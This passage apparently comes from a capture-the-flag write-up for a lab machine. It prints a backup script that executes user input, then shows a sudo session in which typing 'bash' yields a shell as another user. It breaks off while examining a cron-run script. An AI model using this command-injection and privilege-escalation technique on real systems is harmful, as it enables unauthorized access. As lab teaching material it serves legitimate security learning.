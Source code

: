 ```
```
```
$ cat /home/gyles/admin_checks
#!/bin/bash

printf "Reading stats.\n"
sleep 1
printf "Reading stats..\n"
sleep 1
read -p "Enter name of person backing up the data: " name
echo $name  >> /var/stats/stats.txt
read -p "Enter 'date' to timestamp the file: " error
printf "The Date is "
$error 2>/dev/null

date_save=$(date "+%F-%H-%M")
cp /var/stats/stats.txt /var/stats/stats-$date_save.bak

printf "Stats have been backed up\n"
```
We can read the file, and the code seems to have a bug we can leverage on. The line
```$error 2>/dev/null```
is effectively executing anything that the user entries, sending the standard error to /dev/null. Let's see what we can do from here:

```
dale@TEAM:~$ sudo -u gyles /home/gyles/admin_checks
Reading stats.
Reading stats..
Enter name of person backing up the data: nonimportant
Enter 'date' to timestamp the file: bash
The Date is id
uid=1001(gyles) gid=1001(gyles) groups=1001(gyles),1003(editors),1004(admin)
```
Yes, so we got a shell as the user gyles now and this user is in admin group... We are in the right track, this deserves a new section.

### The user Gyles
Now if you explore the filesystem, you'll find some files that this user or group can edit but I really wasn't able to understand how to use them until I looked at the gyles .bash_history:
```
...
ls -la
su root
id
cd /opt
ls -la
cd admin_stuff/
ls
./blog_backup.sh 
clear
...
```
The directory admin_stuff stands out, let's have a look:

```
cd /opt/admin_stuff
ls
script.sh
```
A script.sh file, we definitely want to look at its content:
```
cat script.sh
#!/bin/bash
#I have set a cronjob to run this script every minute